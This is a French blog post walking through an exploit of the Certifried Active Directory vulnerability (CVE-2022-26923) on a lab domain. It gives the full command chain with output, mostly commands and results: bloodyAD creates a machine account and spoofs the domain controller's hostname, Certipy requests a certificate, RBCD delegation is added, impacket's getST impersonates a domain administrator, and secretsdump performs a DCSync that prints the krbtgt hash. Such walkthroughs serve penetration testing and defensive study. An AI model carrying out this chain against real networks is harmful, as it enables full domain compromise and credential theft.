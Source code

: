 ```yaml
---
title: Exploitation de Certifried (CVE-2022-26923)
summary: Découvrez comment exploiter la vulnérabilité Certifried facilement avec bloodyAD.
date: 2024-05-11
# Featured image
# Place an image named `featured.jpg/png` in this page's folder and customize its options here.
# image:
#   caption: 'Image credit: [**Unsplash**](https://unsplash.com)'

authors:
  - soka
  - admin

tags:
  - Active Directory
  - Authentication
  - CVE
  - Exploit

categories:
  - bloodyAD
---
```


Une nouvelle élévation de privilège est sortie: Certifried (CVE-2022-26923) avec ce [billet de blog](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) après que Microsoft l'ait patché.
Voici un exemple de comment exploiter cette vulnérabilité avec [bloodyAD](https://github.com/CravateRouge/bloodyAD) sans utiliser PKINIT.

## Linux

On a besoin d'une machine, soit on en compromet une ou alors on en crée une si `ms-DS-MachineAccountQuota`>0:

```ps1
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 get object 'DC=crashlab,DC=local' --attr ms-DS-MachineAccountQuota                     

distinguishedName: DC=crashlab,DC=local
ms-DS-MachineAccountQuota: 10
```

On crée un objet machine `cve` dans le LDAP:
```ps1
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 addComputer cve 'CVEPassword1234*'

[+] cve created
```

Ensuite on change l'attribut `dNSHostName` (vide quand on crée l'objet) pour qu'il corresponde au nom de machine du contrôleur de domaine: `CRASHDC.crashlab.local`.

```ps1
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 set object 'CN=cve,CN=Computers,DC=crashlab,DC=local' dNSHostName -v CRASHDC.crashlab.local

[+] CN=cve,CN=Computers,DC=crashlab,DC=local's dnsHostName has been updated
```

On vérifie que l'attribue a été configuré correctement:
```ps1
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 get object 'CN=cve,CN=Computers,DC=crashlab,DC=local' --attr dNSHostName                  

distinguishedName: CN=cve,CN=Computers,DC=crashlab,DC=local
dNSHostName: CRASHDC.crashlab.local
```

Et maintenant on utilise [Certipy](https://github.com/ly4k/Certipy) pour demander le certificat pour la machine `cve`:
```ps1
# 10.100.10.13 is the ADCS server
> certipy req 'crashlab.local/cve$:CVEPassword1234*@10.100.10.13' -template Machine -dc-ip 10.100.10.12 -ca crashlab-ADCS-CA
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 12
[*] Got certificate with DNS Host Name 'CRASHDC.crashlab.local'
[*] Saved certificate and private key to 'crashdc.pfx'

```

Maintenant on va essayer de récupérer un TGT en utilisant [Certipy](https://github.com/ly4k/Certipy) avec le certificat demandé précédemment:
```ps1
> certipy auth -pfx ./crashdc.pfx -dc-ip 10.100.10.12
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: crashdc$@crashlab.local
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

PKINIT ne fonctionne pas sur cet AD, essayons la technique RBCD avec [bloodyAD](https://github.com/CravateRouge/bloodyAD) et sa fonctionnalité d'authentification par certificat:
```ps1
> openssl pkcs12 -in crashdc.pfx -out crashdc.pem -nodes
> python bloodyAD.py -d crashlab.local  -c ":crashdc.pem" -u 'cve$' --host 10.100.10.12 add rbcd 'CRASHDC$' 'CVE$'
[+] CVE$ SID is: S-1-5-21-1945936656-2616711065-1665664270-1134             
[+] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity correctly set        
[+] Delegation rights modified successfully!                                                                           
CVE$ can now impersonate users on CRASHDC$ via S4U2Proxy
```

Les droits de délégation sont en place, maintenant on peut utiliser [impacket](https://github.com/SecureAuthCorp/impacket) `getST.py` pour usurper l'administrateur de domaine (`emacron` dans notre cas) sur CRASHDC$ et on récupère un TGT: 
```ps1
> getST.py -spn LDAP/CRASHDC.CRASHLAB.LOCAL -impersonate emacron -dc-ip 10.100.10.12 'crashlab.local/cve$:CVEPassword1234*'                 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation                                                               
                                                                                                                       
[*] Getting TGT for user                                                                                               
[*] Impersonating emacron                                                                                              
[*]     Requesting S4U2self                                                                                            
[*]     Requesting S4U2Proxy
[*] Saving ticket in emacron.ccache

> cp emacron.ccache /tmp/
> export KRB5CCNAME=/tmp/emacron.ccache
```

Pour finir on utilise [impacket](https://github.com/SecureAuthCorp/impacket) `secretsdump.py` pour réaliser un DCSync avec le TGT récupéré:
```ps1

> secretsdump.py -user-status -just-dc-ntlm -just-dc-user krbtgt 'crashlab.local/emacron@crashdc.crashlab.local' -k -no-pass -dc-ip 10.100.10.12 -target-ip 10.100.10.12 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:492850f62466ef2bd1f4a56f112e01f1::: (status=Disabled)
[*] Cleaning up...
```
